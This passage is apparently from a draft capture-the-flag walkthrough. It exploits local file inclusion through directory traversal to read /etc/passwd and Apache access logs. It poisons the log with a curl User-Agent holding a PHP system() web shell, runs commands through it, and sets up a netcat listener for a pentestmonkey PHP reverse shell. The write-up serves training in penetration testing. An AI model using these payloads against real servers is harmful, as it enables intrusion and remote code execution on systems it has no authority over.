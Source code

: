 We can also use our knowledge of the ext parameter to view /etc/passwd
/?view=./dog/../../../../../../../etc/passwd&ext

## 2.3 PHP Log poisoning

Now that we know how to read files on the target system we can look to view access logs which will record requests we make to the web server.
From our nmap scan we know we are dealing with an Apache server V 2.4.38 which you may know the log file location of from prvious experience but if not a google search can provide you with the results which is what I had to do and found the answer [here](https://phoenixnap.com/kb/apache-access-log)

**Viewing log file**
Using LFI directory traversal and keeping the ext parameter blank\
**/?view=./dog/../../../../../../../var/log/apache2/access.log&ext=**

IMAGE LOG FILE

**Using curl to poison log**

```bash
curl http://$TGT -H "User-Agent: <?php system(\$_GET['cmd']); ?>" 
```


**Note**: If a php error is produced here you may need to reset your machine as the PHP is stored in log file. Once you have reset the machine input the correct curl command above making sure to use the new machine's IP.\
For me, I had to restart my machine because the amount of requests I made with gobuster enumeration making the logs hard to view in my browser.

If we know take a look at the log file again it now shows:\
**Warning**: system(): Cannot execute a blank command in **/var/log/apache2/access.log**

Note: If you are struggling to read through the log file in browser viewing the page source can help neaten it up a bit

IMAGE WARNING

This shows us that our PHP log poisoning has worked but we just haven't set our 'cmd' parameter. We can perform a quick test using the cmd `id`

**/?view=./dog/../../../../../../../var/log/apache2/access.log&ext=&cmd=id**

IMAGE RESULT PHPID

## 2.3 Create a Reverse Shell

INSERT LINK TO SHELLS TO TRY

Set up listener on machine:
```bash
nc -nvlp 4444
```

I inserted the well known **PHP shell** from pentestmonkey which can be found at: [https://github.com/pentestmonkey/php-reverse-shell](https://github.com/pentestmonkey/php-reverse-shell) making sure to change the ip and port number to match my workstation IP and the port number to that in the netcat listener I set up.
